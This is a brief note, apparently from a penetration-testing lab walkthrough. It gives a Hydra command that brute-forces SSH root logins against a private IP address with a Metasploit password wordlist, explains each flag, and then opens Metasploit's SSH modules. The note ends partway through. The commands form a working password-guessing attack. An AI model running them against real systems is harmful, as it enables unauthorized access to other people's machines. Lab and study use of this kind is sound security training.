

#hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.29.71 -t 4 -V
-l:user we are going to be utilizing
-P: password list
-t: 4 threads
-V:verbosity
//using metasploit
#msfconsole
#search ssh

#options

#set verbose true